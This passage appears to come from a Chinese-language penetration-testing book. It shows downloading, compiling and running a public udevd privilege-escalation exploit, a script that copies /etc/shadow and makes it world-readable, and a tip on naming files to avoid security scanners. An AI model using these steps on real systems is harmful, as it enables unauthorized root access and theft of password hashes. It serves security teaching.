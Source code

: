 现在，您可以从网站下载漏洞并将其传输到系统，或者我们可以通过命令行进行欺骗并完成它。只需运行以下命令：

```
wget http://www.exploit-db.com/download/8572 -O escalate.c

```

这将下载该漏洞并将其保存为一个`code`，以便在本地主机上编译和执行。

![Gaining root access to the system](../Images/image00326.jpeg)

我们需要找到`gcc`编译器，并验证它是否在我们的路径中，以便于执行，然后在目标系统上编译代码。这可以按如下方式完成，即`gcc`，然后可以使用`gcc`使用以下命令`gcc escalate.c -o escalate`将代码编译成漏洞攻击。这将输出名为`escalate`的新可执行二进制文件。

### 提示

在实际系统上执行此操作时，不要命名文件`exploit`、`escalate`、`shell`、`pwned`或任何类似的名称。这些是许多安全工具扫描的常见名称，因此它们可以在执行之前进行标记。就本例而言，这并不重要。

现在，编译的漏洞被称为`escalate`，一旦我们确定了一些其他信息组件，就可以运行该漏洞。此漏洞利用 udevd netlink 套接字进程，因此我们需要识别该进程并将漏洞传递给**进程标识符**（**PID**）。这可以在引用服务`/proc/net/netlink`的文件中找到。您可以通过执行以下命令`cat /proc/net/netlink`来识别细节：

![Gaining root access to the system](../Images/image00327.jpeg)

### 注

请记住，您的 PID 可能会有所不同。

此漏洞，特别是执行一个脚本，其中包含写入文件`/tmp/run`的命令。因此，让我们将`/etc/shadow`文件复制到`/tmp`，因为我们首先尝试访问该数据。我们还需要验证复制的文件是否与原始文件相同；我们可以通过获取每个文件的**消息摘要 5**（**MD5**并将结果放入`/tmp`中另一个名为`hashes`的文件中来轻松实现这一点。在`/tmp`中创建一个名为 run 的文件，并添加以下内容：

```
#!/bin/bash
cp /etc/shadow /tmp/shadow
chmod 777 /tmp/shadow
md5sum /tmp/shadow > /tmp/hashes
md5sum /etc/shadow >> /tmp/hashes

```

然后，使用您试图利用的特定进程的参数运行利用漏洞攻击。下图显示了`gcc`编译器的标识、漏洞的编译、执行和结果证明：

![Gaining root access to the system](../Images/image00328.jpeg)

### 注

可以直接卸载文件，而不移动并复制它，但通常情况下，您不会将系统的用户名和密码写入已被利用的框中的文件，因为您永远不知道该框中已经有谁。此外，本示例的设计思想是，系统上可能不存在像`netcat`这样的简单端口重定向工具。

然后通过比较两个文件的 MD5 哈希并将其写入`/tmp/hashes`文件，验证复制文件的内容是否与`/etc/shadow`文件相同。然后可以将新复制的文件从系统复制到攻击框中。

### 提示

在真实环境中要始终非常小心，当您复制`passwd`或卷影文件时，可能会破坏目标系统。因此，请确保不要删除、重命名或移动原件。如果在目标系统的其他位置复制，请将其删除，以免帮助真正的攻击者。
